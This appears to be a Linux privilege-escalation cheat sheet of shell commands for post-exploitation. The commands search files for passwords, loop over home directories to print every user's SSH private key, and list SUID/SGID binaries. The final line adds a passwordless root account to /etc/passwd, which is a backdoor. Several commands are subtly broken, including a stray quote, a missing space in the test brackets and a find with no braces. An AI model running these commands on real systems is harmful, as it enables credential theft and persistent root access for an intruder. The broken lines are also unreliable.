 ```bash
cat /etc/crontab
cat /etc/anacrontab

#finding password in files
grep -rnw '/etc/passwd' -e 'root'

#finding the word "password" in files
grep -R 'password' config.php
find / -type f -exec grep -H 'password' \; 2>/dev/null
grep -R -i "password" 2> >(grep -v 'Permission denied' >&2)
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name " *. php" -print0 | xargs -0 grep -i -n "var $password"
```
### Linux SSH
- private key = id_rsa ,id_dsa (SSH2 only)
- public key = id_rsa.pub, id_dsa.pub (SSH2 only)
```bash
#find id_rsa using bash script
#!/bin/bash
for X in $(cut -f6 -d:' /etc/passwd |sort |uniq); do
  if [-s "${X}/.ssh/id_rsa" ]; then
    echo "### ${X}: "
    cat "${X}/.ssh/id_rsa"
    echo ""
  fi
done

#find id_dsa using bash script
#!/bin/bash
for X in $(cut -f6 -d':' /etc/passwd |sort |uniq); do
  if [-s "${X}/.ssh/id_dsa" ]; then
    echo "### ${X}: "
    cat "${X}/.ssh/id_dsa"
    echo
  fi
done
```

### Find SGID SUID GUID bit
```bash
find / -perm -1000 -type d 2>/dev/null

SGID (chmod 2000):
find / -perm -g=s -type f 2>/dev/null

#SUID (chmod 4000) :
find / -perm -u=s -type f 2>/dev/null
find /* -user root -perm -4000 -print 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
find / -type f -perm -u=s 2>/dev/null | xargs ls -l
find / -user root -perm -4000 -exec ls -ldb {} \;

#SUID or GUID
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null

#Add user to /etc/passwd and root group
echo hodor::0:0:root:/root:/bin/bash >> /etc/passwd
```
